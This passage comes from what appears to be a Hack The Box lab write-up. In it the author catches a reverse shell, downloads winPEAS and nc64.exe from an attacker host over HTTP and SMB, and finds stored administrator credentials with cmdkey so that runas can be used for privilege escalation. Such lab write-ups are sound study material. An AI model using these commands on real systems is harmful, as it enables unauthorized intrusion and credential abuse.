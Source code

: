 ```shell
PS C:\Users\security\Documents> ─[us-dedivip-1]─[10.10.14.30]─[htb-jib1337@htb-0mgl0gm8pu]─[~/psh]
└──╼ [★]$ nc -lvnp 9999
listening on [any] 9999 ...
connect to [10.10.14.30] from (UNKNOWN) [10.129.84.178] 49160

PS C:\Windows\Temp> $client = New-Object System.Net.WebClient
PS C:\Windows\Temp> $client


Encoding              : System.Text.SBCSCodePageEncoding
BaseAddress           : 
Credentials           : 
UseDefaultCredentials : False
Headers               : {}
QueryString           : {}
ResponseHeaders       : 
Proxy                 : System.Net.WebRequest+WebProxyWrapper
CachePolicy           : 
IsBusy                : False
Site                  : 
Container             : 

PS C:\Windows\Temp> $url = 'http://10.10.14.30:8000/winPEAS.exe'
PS C:\Windows\Temp> $path = '.\winPEAS.exe'
PS C:\Windows\Temp> $client.DownloadFile($url, $path)
```
It doesn't work, however, as group policy seems to prevent this accout from running exe files.  
List stored creds:
```shell
PS C:\> cmdkey /list

Currently stored credentials:

    Target: Domain:interactive=ACCESS\Administrator
    Type: Domain Password
    User: ACCESS\Administrator
```
The administrator password is being stored for use. This means I can run commands as the administrator user. This would be how the user can run exes.
From: https://www.windows-commandline.com/windows-runas-command-prompt/   

*Runas is a very useful command on Windows OS. This command enables one to run a command in the context of another user account. One example scenario where this could be useful is: Suppose you have both a normal user account and an administrator account on a computer and currently you are logged in as normal user account. Now you want to install some software on the computer, but as you do not have admin privileges you can’t install the same from the current account. One option is to switch user and login as administrator. Instead, you can do the same by simply using runas command. You just need to launch the installer from command prompt using runas command and by providing administrator login id and password.*
  
### 7. Get an administrator shell
Upload nc64.exe to the machine using an SMB server:
```shell
C:\Users\security\Documents>copy \\10.10.14.30\jack\nc64.exe .
        1 file(s) copied.

C:\Users\security\Documents>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Documents

01/17/2021  12:43 PM    <DIR>          .
01/17/2021  12:43 PM    <DIR>          ..
```